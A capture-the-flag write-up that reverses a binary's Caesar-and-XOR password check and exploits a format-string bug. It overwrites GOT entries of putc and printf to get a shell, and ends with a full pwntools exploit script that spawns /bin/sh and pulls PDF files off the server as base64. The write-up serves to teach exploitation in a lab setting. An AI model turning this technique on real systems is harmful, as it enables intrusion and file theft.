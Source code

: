 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](includes/images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](includes/images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](includes/images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](includes/images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](includes/images/decompile_entry.png)

We decompile it with Ghidra. Since the executable is stripped, Ghidra shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](includes/images/main.png)

The main function has 3 functions FUN_00401216(), FUN_00401259(), FUN_00401448() (function FUN_00401230() is a callback to handle the alarm() and does nothing interesting)

![image](includes/images/print.png)

FUN_00401216() just prints.

![image](includes/images/pass.png)

FUN_00401259() asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](includes/images/init.png)

FUN_00401448() is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the pass() function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the init() function so that it loops arround and exploit the format string vuln as many times as required. We choose the putc function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of printf() with system so that in the next looping, we can enter `/bin/sh`. This converts the printf(s) to essentially work like system("/bin/sh").


### Step 3: Reversing the password

We shall rename few variables to analyze the pass() function

![image](includes/images/pass_rename.png)


__Note__ : `input[10]` in the decompiled code and fgets() that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes above the rbp as shown below.
![image](includes/images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to ``.

![image](includes/images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](includes/images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](includes/images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](includes/images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

the offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](includes/images/offset.png)

the offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](includes/images/system_printf.png)

![image](includes/images/putc.png)

![image](includes/images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of system("ls *.pdf") in init() suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` 
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

# got manually
OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```


